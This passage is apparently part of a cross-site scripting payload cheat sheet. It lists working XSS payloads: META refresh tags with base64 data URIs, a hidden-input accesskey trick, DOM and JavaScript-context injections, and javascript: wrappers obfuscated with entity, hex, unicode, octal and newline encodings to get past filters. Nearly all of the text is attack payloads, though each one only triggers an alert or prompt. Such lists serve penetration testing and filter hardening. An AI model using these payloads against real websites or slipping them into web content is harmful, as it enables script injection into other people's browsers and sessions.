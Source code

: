XSS in META tag

```javascript
Base64 encoded
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<meta/content="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pg=="http-equiv=refresh>

With an additional URL
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

XSS in Hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

DOM XSS

```javascript
#"><img src=/ onerror=alert(2)>
```

XSS in JS Context (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)

```javascript
-(confirm)(document.domain)//
; alert(1);//
```

XSS URL

```javascript
URL/<svg onload=alert(1)>
URL/<script>alert('XSS');//
URL/<input autofocus onfocus=alert(1)>
```

## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javacript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
```
